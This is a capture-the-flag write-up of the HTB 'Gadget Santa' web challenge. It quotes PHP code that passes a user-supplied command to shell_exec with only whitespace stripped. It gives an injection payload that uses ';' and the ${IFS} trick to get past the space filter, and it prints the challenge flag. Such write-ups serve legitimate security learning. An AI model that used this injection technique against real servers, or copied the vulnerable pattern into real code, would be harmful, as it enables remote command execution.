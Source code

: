 # Cyber Santa is Coming to Town: Gadget Santa

![Author: crxzii](https://img.shields.io/badge/Author-crxzii-blue.svg) ![Contest Date: 05.12.2021](https://img.shields.io/badge/Contest%20Date-05.12.2021-lightgrey.svg)

![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg) ![Category: Web](https://img.shields.io/badge/Category-Web-lightgrey.svg) ![Score: 300](https://img.shields.io/badge/Score-300-brightgreen.svg)

## Description

> It seems that the evil elves have broken the controller gadget for the good old candy cane factory! Can you team up with the real red teamer Santa to hack back?

## Attached Files

- web_gadget_santa.zip

A Zip file containing the full docker source code.

## Summary

We use a vulnerability in the way commands are handled to execute custom commands we pass. <br>
Using that we can read the flag, we get from an endpoint of an http server.

## Flag

```
HTB{54nt4_i5_th3_r34l_r3d_t34m3r}
```

## Detailed Solution

Upon opening the Website we are greeted with a Monitor with some options we can click.

![Monitor Image](https://i.gyazo.com/5ae21ebff65c92c16c95c93b62e4245d.png)

Clicking on one of the buttons gives us an output and shows us the url, where we can see the command being passed.

![Image of Command](https://i.gyazo.com/132e0d418341e20989ed613a84439920.png)

Taking a look at the source Code, we can see the how the commands are parsed:

```js
public function index($router){
    $command = isset($_GET['command']) ? $_GET['command'] : 'welcome';
    $monitor = new MonitorModel($command);
    return $router->view('index', ['output' => $monitor->getOutput()]);
}
```

```js
class MonitorModel
{
    public function __construct($command)
    {
        $this->command = $this->sanitize($command);
    }

    public function sanitize($command)
    {
        $command = preg_replace('/\s+/', '', $command);
        return $command;
    }

    public function getOutput()
    {
        return shell_exec('/santa_mon.sh '.$this->command);
    }
}
```

The script takes the command, sanitizes it, which removes any space characters and passes it on to a shell script.<br>
Taking a look at the shell script, doesn't give us any hints. But we can also find a python script called `ups_manager.py`, which hosts a http server on port 3000. And here we find an interesting endpoint:

```py
elif self.path == '/get_flag':
  resp_ok()
  self.wfile.write(get_json({'status': 'HTB{f4k3_fl4g_f0r_t3st1ng}'}))
  return
```

This means we need to access `localhost:3000/get_flag` to receive the flag.<br>
Now it's time to exploit the `shell_exec` used in the MonitorModel. We craft a simple URL, which should print us the flag:

```
/?command=ups_status;curl localhost:3000/get_flag
```

There is only one problem. We can't use space characters, as the sanitization removes those.<br>
We can bypass this by using `${IFS}`, which is a linux shell variable for the space character. And it works!

![Image of payload executed](https://i.gyazo.com/8adea60a0cf5070cfd7a4e999baa3674.png)

This way we can just read our flag from the monitor screen `HTB{54nt4_i5_th3_r34l_r3d_t34m3r}`!
